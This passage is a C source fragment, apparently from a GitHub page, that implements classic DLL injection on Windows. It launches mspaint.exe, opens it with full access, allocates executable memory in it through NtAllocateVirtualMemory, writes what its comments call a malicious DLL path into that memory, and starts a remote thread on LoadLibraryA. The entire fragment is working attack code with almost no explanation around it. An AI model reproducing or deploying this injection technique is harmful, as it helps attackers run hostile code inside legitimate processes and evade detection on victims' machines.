 ```c 
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  HANDLE targetProcess; // Target process handle
  HANDLE remoteThread;  // Remote thread
  LPVOID remoteBuffer;  // Remote buffer for data

  // Obtain handles to kernel32 and ntdll and retrieve function pointer
  HMODULE kernel32Handle = GetModuleHandle("Kernel32");
  HMODULE ntdllHandle = GetModuleHandle("ntdll");
  VOID *loadLibraryFunction = (VOID *)GetProcAddress(kernel32Handle, "LoadLibraryA");

  STARTUPINFOA si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(STARTUPINFOA));
  si.cb = sizeof(STARTUPINFOA);
  const char* process = "mspaint.exe";
  CreateProcessA(NULL, (LPSTR)process,
  NULL, NULL, FALSE, 0, NULL, NULL, &si,&pi);
  int pid = -1;
  pid = findProc(process);

  // Parse process ID
  if (pid <= 0) {
    printf("Process ID not found. Exiting...\n");
    return -1;
  }

  printf("Process ID: %i", pid);
  targetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

  pNtAllocateVirtualMemory myNtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(ntdllHandle, "NtAllocateVirtualMemory");  

  // Allocate memory buffer in the remote process
  myNtAllocateVirtualMemory(targetProcess, &remoteBuffer, 0, (PULONG)&maliciousLibraryPathLength, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // Copy the malicious DLL path to the remote process
  WriteProcessMemory(targetProcess, remoteBuffer, maliciousLibraryPath, maliciousLibraryPathLength, NULL);

  // Start a new thread in the target process
  remoteThread = CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryFunction, remoteBuffer, 0, NULL);
  CloseHandle(targetProcess);
  return 0;
}
```
